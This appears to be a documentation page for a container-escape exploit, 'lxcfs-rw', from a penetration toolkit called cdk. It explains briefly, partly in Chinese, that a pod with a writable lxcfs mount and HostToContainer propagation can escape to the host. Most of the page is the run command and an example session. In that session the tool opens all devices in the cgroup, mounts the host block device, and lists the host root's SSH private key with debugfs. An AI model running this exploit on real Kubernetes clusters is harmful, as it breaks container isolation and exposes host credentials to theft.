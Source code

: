 # Exploit: K8S & lxcfs Escape

Escape container when root has LXCFS read & write privilege.

当 POD 配置 `mountPropagation: HostToContainer` 并使用 lxcfs 修改 cgroup 设置就可能导致容器逃逸。

## Usage
```
./cdk run lxcfs-rw
```

## Example

```
./cdk run lxcfs-rw

root@lxcfs-rw:/tmp# ./cdk run lxcfs-rw
2021/01/28 09:25:21 found pod devices.allow path: /kubepods/burstable/pod561ee143-4468-443a-9940-f262a9417ae5/ef6edb3c483591aaa28923df6de84d1fedb9372890c4441fd0e31ed4972237b1
2021/01/28 09:25:21 found host blockDeviceId Marjor: 252 Minor: 1
2021/01/28 09:25:21 found rw lxcfs mountpoint: /data/test/lxcfs
2021/01/28 09:25:22 set all block device accessible success.
2021/01/28 09:25:22 devices.allow content: a *:* rwm
2021/01/28 09:25:22 exploit success, run "debugfs -w host_dev".

root@lxcfs-rw:/tmp# debugfs -w host_dev
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root/.ssh
 393231  (12) .    52566  (12) ..    395870  (24) authorized_keys
 395829  (16) config    395860  (20) known_hosts    393227  (16) id_rsa
 395831  (3996) id_rsa.pub
```

